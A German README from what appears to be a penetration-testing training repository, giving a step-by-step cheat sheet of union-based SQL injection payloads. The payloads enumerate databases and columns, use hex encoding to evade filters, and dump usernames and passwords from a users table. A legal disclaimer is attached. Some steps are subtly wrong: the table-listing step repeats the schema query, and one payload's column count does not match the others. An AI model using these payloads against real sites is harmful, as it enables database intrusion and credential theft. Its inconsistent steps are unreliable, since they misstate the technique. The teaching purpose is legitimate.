 # Union-Based SQL Injection Attack

> Dieses Dokument beschreibt die Durchführung einer Union-Based. SQL-Injection zur Extraktion von Daten aus einer Datenbank.

## Inhaltsverzeichnis
- [Ziel](#ziel)
- [Beispielhafte Schritte zur Datenextraktion mit `GROUP_CONCAT`](#beispielhafte-schritte-zur-datenextraktion-mit-group_concat)
- [Hinweise](#hinweise)
- [Sicherheitshinweis](#sicherheitshinweis)
- [Haftungsausschluss](#haftungsausschluss)

---

## Ziel

Datenbankinformationen schrittweise über die `UNION SELECT`-Technik auslesen – insbesondere bei anfälligen Parametern wie z. B. `id`, `search`, `user`, etc.

---

## Beispielhafte Schritte zur Datenextraktion mit `GROUP_CONCAT`

1. **Test auf Verwundbarkeit mit UNION SELECT**
```sql
test' UNION SELECT 1,2,3 FROM table_name --
```

2. **Schemas (Datenbanken) anzeigen:**
```sql
test' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata --
```

3. **Tabellennamen der aktuellen Datenbank anzeigen:**
```sql
test' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata --
```

4. **Spaltennamen aus einer bestimmten Tabelle anzeigen (Klartextname):**
```sql
test' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='users' --
```

5. **Spaltennamen anzeigen mit Hex-Wert für Tabellenname (Bypass & Genauigkeit):**
```sql
test' UNION SELECT 1,2,3,4,group_concat(column_name),6 FROM information_schema.columns WHERE table_name=0x7573657273 --
```

💡 `users` in Hex: 0x7573657273
Tool für Umwandlung: [Codebeautify – String to Hex](https://codebeautify.org/string-hex-converter)

6. **Nutzerdaten ausgeben (z. B. Username & Passwort):**
```sql
test' UNION SELECT 1,group_concat(username,0x3a3a,password),3 FROM users --
```

---

## Hinweise
- `group_concat()` ist hilfreich zum Kombinieren mehrerer Ergebnisse in einer Zeile.

- Hexadezimaldarstellung (0x...) kann helfen, Filter oder Escaping-Probleme zu umgehen.

- Kommentare wie -- oder --+ beenden den ursprünglichen SQL-Befehl korrekt.

---

## Sicherheitshinweis

Dieses Wissen dient ausschließlich der legalen Anwendung im Rahmen von Penetration Tests mit ausdrücklicher Erlaubnis. Der Missbrauch kann strafrechtlich verfolgt werden.

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
